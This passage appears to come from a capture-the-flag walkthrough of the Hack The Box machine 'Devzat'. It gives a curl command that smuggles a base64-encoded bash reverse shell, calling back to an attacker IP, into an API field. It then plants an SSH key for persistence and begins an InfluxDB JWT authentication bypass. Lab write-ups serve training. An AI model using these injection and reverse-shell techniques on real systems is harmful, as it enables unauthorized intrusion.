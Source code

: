 Be sure to start a listener and then send the following curl command:

```bash
curl -X POST "http://pets.devzat.htb/api/pet" -d '{"name":"my pwn cat","species":"cat; echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNy4xLzkwMDEgMD4mMSAK | base64 -d | bash"}' -H "'Content-Type': 'application/json'"
```

![[curl-petshop.png]]
![[revshell-pops.png]]

#### SSH Key
Now we are `patrick` and luckily we can write to `~/.ssh`. So we create/add our key in the file `authorized_keys` there to gain a "checkpoint" and a stable ssh shell.

![[ssh-key-patrick.png]]

As there also was his ssh key `id_rsa` we could have downloaded that instead. I chost to just add mine.

![[patrick-ssh-in.png]]

#### Hint on how to progress

We can see from a directory listing that there is no *user.txt*. `/etc/passwd` will give us another user called `catherine`. Looking at her home directory there is the *user.txt* and we cannot access it. So we sure need to do lateral movement.

![[patrick-home.png]]
![[etc-passwd.png]]
![[catherine-home-no-access.png]]

How to progress? If you login to the chat service with the user name `patrick` you get a conversation backlog between `admin` and `patrick` which tells you that there is an InfluxDB running with a specific Version `1.7.5`.

```bash
ssh -l patrick -p 8000 localhost
```

![[patrick-hint-chat.png]]

#### InfluxDB

There is in fact an InfluxDB running. You can find it locally bound by looking at `netstat`:

![[netstat-influxdb.png]]

### Lateral Movement
Now we are on to do lateral movement from *patrick* to *catherine*.

#### Authentication Bypass
Researching vulnerabilities for the specific version 1.7.5 of influx-db will lead us to a a `Authentication Bypass` Vulnerability.
The best information in my opinion can be found at [snyk](https://snyk.io/vuln/SNYK-GOLANG-GITHUBCOMINFLUXDATAINFLUXDBSERVICESHTTPD-1041719). They also link to a specific code line of `jwt_tool` [here](https://github.com/ticarpi/jwt_tool/blob/a6ca3e0524a204b5add070bc6874cb4e7e5a9864/jwt_tool.py#L1368) which tells us we need to use a blank "password" when creating a jwt token.
